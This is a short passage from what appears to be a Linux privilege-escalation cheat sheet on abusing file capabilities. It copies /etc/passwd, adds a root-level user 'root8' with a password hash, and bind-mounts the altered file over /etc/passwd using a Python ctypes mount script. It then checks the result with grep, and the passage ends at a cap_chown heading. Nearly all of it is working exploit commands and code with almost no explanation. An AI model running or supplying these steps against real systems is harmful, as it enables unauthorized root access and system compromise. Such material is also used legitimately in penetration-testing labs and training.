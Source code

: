 ```bash
cp /etc/passwd .
```

```bash
vim passwd
```

```bash
root8:$1$RBQLuaaV$4Dqrii/GXbnYm5TGVw96y.:0:0:root:/root:/bin/bash
```


```bash
vim exploit.py
```




- exploit.py
	- according to normal user
```python title:exploit.py
from ctypes import *
libc = CDLL("libc.so.6")
libc.mount.argtypes = (c_char_p, c_char_p, c_char_p, c_ulong, c_char_p)
MS_BIND = 4096
source = b"/home/armour/passwd"
target = b"/etc/passwd"
filesystemtype = b"none"
options = b"rw"
mountflags = MS_BIND
libc.mount(source, target, filesystemtype, mountflags, options)
```

```bash
chmod +x exploit.py
```

```bash
./exploit.py
```

or

```bash
python3 exploit.py
```

```bash
grep root8 /etc/passwd
```

___

## cap_chown

#### Misconfiguring

**python**
